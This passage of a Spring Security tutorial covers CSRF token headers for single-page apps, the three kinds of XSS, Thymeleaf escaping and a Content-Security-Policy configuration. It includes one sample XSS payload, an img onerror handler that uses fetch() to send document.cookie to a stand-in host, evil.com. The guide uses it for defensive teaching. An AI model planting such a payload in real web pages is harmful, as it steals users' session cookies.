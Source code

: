 **For SPA/Mobile (Send token in header):**
```java
http
    .csrf(csrf -> csrf
        .csrfTokenRepository(CookieCsrfTokenRepository.withHttpOnlyFalse())
    );
```

Then client reads token from cookie and sends it via `X-CSRF-TOKEN` header.

---

## 2. XSS (Cross-Site Scripting)

### What is XSS?
Attacker injects malicious JavaScript into a web page viewed by other users.

**Attack Example:**
```
User comment: <img src=x onerror="alert('XSS');fetch('evil.com/steal-data?cookie='+document.cookie)"/>

When displayed without sanitization:
- Script executes
- Steals session cookies
- Redirects to phishing site
```

### 3 Types:
1. **Stored XSS** - Malicious script saved in database, executed on retrieval
2. **Reflected XSS** - Script in URL parameter, reflected back in response
3. **DOM-based XSS** - JavaScript modifies DOM with untrusted data

### Spring Security Defense Layers:

**Layer 1: Output Encoding (Template Engines)**
```java
// Thymeleaf auto-escapes by default
<p th:text="${userComment}"></p>  <!-- HTML-safe -->

// BUT this doesn't escape:
<p th:utext="${userComment}"></p>  <!-- UNSAFE - use only for trusted content -->
```

**Layer 2: Content-Security-Policy (CSP)**
```java
http
    .headers(headers -> headers
        .contentSecurityPolicy(csp -> csp
            .policyDirectives(
                "script-src 'self' https://trusted.com; " +
                "object-src 'none'; " +
                "report-uri /csp-report"
            )
        )
    );
```
